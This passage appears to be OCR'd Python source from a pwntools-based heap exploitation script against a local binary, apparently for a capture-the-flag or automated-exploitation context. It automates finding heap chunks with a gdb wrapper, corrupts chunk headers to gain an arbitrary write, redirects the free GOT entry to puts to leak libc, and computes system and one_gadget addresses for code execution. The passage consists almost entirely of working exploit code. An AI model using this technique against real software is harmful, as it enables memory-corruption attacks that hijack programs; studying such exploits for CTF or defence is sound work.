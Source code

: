 ```python
        Edit(io, 5, 0x400, "e" * 0x400)
        heap = gdbwrapper.heap()
        heap = [(k, heap[k]) for k in sorted(heap.keys())]
        ptr_addr = []
        index = 1
        while True:
            for chunk in heap:
                address = chunk[0]
                info = chunk[1]
                ptr_addr_length = len(ptr_addr)
                if (info["mchunk_size"] & 0xfffffffffffffffe) == 0x410:
                    for x in gdbwrapper.search("bytes", str(chr(ord('a') + index - 1)) * 0x400):
                        if int(address, 16) + 0x10 == x["ADDR"]:
                            tmp = gdbwrapper.search("qword", x["ADDR"])
                            for y in tmp:
                                if binary.split("/")[-1] in y["PATH"]:
                                    ptr_addr.append(y["ADDR"])
                                    break
                        if (len(ptr_addr) != ptr_addr_length):
                            break
                if len(ptr_addr) != ptr_addr_length:
                    break
            index += 1
            if (index == 5):
                break
        bss_ptrlist = sorted(ptr_addr)[0]
        io.close()
    while free_index == None:
        io = process(binary)
        Alloc(io, 0x400)
        Alloc(io, 0x400)
        Alloc(io, 0x400)
        Free(io, free_try)
        Edit(io, free_try - 1, 0x400 + 0x18, "a" * 0x400 + p64(0) + p64(1041) + p64(0x12345678))
        try:
            Alloc(io, 0x400)
            Alloc(io, 0x400)
        except Exception:
            free_index = free_try
        free_try += 1
        io.close()
    # arbitrary write
    libc = ELF(binary).libc
    one_gadget_offsets = generate_one_gadget(libc.path)
    for one_gadget_offset in one_gadget_offsets:
        io = process(binary)
        libc = elf.libc
        gdbwrapper = GdbWrapper(io.pid)
        Alloc(io, 0x400)
        Alloc(io, 0x400)
        Alloc(io, 0x400)
        Free(io, free_index)
        Edit(io, free_index - 1, 0x400 + 0x18, "a" * 0x400 + p64(0) + p64(1041) + p64(bss_ptrlist - 0x08))
        Alloc(io, 0x400)
        Alloc(io, 0x400)
        ###leak libc
        Edit(io, 5, 0x18, p64(elf.got["free"]) * 2 + p64(elf.got["malloc"]))
        Edit(io, 0, 0x08, p64(elf.plt["puts"]))
        leaked = u64(Free(io, 2)[:-1].ljust(8, "\x00"))
        libc_base = leaked - libc.symbols["malloc"]
        system_addr = libc_base + libc.symbols["system"]
        one_gadget_addr = libc_base + one_gadget_offset
```